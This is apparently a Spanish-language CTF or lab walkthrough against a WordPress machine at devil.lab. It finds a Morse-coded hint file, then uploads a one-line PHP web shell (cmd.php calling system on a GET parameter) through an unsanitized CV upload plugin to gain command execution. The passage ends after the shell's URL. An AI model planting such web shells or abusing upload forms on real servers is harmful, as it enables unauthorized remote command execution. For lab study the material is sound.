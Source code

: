 Tenemos este directorio:
```bash
http://devil.lab/wp-content/uploads/esteestudirectorio/
```

Que en su interior contiene un archivo: **aqui.txt**
```bash
http://devil.lab/wp-content/uploads/esteestudirectorio/aqui.txt
```

Tiene este contenido:
```bash
-- . .--- --- .-.
.--. .-. ..- . -... .-
.... .-
.... .- -.-. . .-.
..-. ..- --.. .. -. --.
.--. . .-. ---
-. ---
. -.
. ... - .
-.. .. .-. . -.-. - --- .-. .. ---
.--. .-. ..- . -... .-
-.-. --- -.
..- -.
-.. .. .-. . -.-. - --- .-. .. ---
.- - .-. .- ... .-.-.-
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora en esta ruta parece que se cargan los archvios que suban en el servidor:
```bash
http://devil.lab/wp-content/plugins/backdoor/uploads/
```

Tambien tenemos esta ruta donde podemos cargar archvios, Si no esta sanitizado nos aprovecharemos para subir un archivo maliciosos que nos permita realizar una llamada a nivel de sistema para ejecutar un comando:
```bash
http://devil.lab/wp-content/plugins/backdoor/
```

Nos permite subir un **CV** en **pfd** o **word** pero subiremos un archivo **php**
**cmd.php**
```php
<?php
  system($_GET["cmd"]);
?>
```

### Ejecucion del Ataque
Una ves subido recargamos la carpeta de **uploads** y cargamos nuestro archivo:
```bash
http://devil.lab/wp-content/plugins/backdoor/uploads/cmd.php
```
